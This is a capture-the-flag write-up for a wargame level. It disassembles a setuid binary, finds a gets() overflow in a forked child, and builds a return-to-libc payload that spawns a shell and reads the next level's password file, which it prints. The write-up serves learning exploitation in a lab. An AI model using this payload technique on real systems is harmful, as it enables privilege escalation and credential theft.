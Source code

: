 # Search 

```
$ ls -l
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04

$ ./level04 
Give me some shellcode, k
\x\x\x\x\x
child is exiting...
```

# analyze with gdb

```
$ gdb level04

(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp)
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx
   0x080486e6 <+30>:    mov    $0x0,%eax
   0x080486eb <+35>:    mov    $0x20,%edx
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp)
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp)
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp)
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp)
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt>
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt>
   0x0804874b <+131>:   movl   $0x8048903,(%esp)
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop
   0x08048769 <+161>:   lea    0x1c(%esp),%eax
   0x0804876d <+165>:   mov    %eax,(%esp)
   0x08048770 <+168>:   call   0x80484f0 <wait@plt>
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp)
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax
   0x0804878a <+194>:   test   %eax,%eax
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242>
   0x080487ac <+228>:   movl   $0x804891d,(%esp)
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338>
   0x080487ba <+242>:   movl   $0x0,0xc(%esp)
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp)
   0x080487ca <+258>:   mov    0xac(%esp),%eax
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp)
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp)
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp)
   0x0804880a <+322>:   mov    0xac(%esp),%eax
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt>
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret    
```

understanding the main:
- a fork is called, and ptrace is used to keep an eye on
- if exec() is called the child is killed so we cannot use it in our shellcode

## setting to follow child process

we have to set this ```set follow-fork-mode child``` before running and searching for the offset, because the segf happen in child process and we must know what is in eip at this moment.

# libc exploit

lets try a [return to libc exploit](https://beta.hackndo.com/retour-a-la-libc/) with system, exit and '/bin/sh'\
corresponding to : ```$ exit ; /bin/sh``` we need:
- the address of them (system, exit and '/bin/sh')
- the offset to eip (next instruction register)

### find offset

```
$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1669]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1669]
0x41326641 in ?? ()
(gdb) i r eip
eip            0x41326641       0x41326641
```

thanks to [this generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) 0x41326641 -> offset 156

```
(gdb) info function system
0xf7e6aed0  system

(gdb) info function exit
0xf7e5eb70  exit

(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so

(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
# payload

```
$ python -c "print('a' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')" > /tmp/exploit

$ cat /tmp/exploit - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```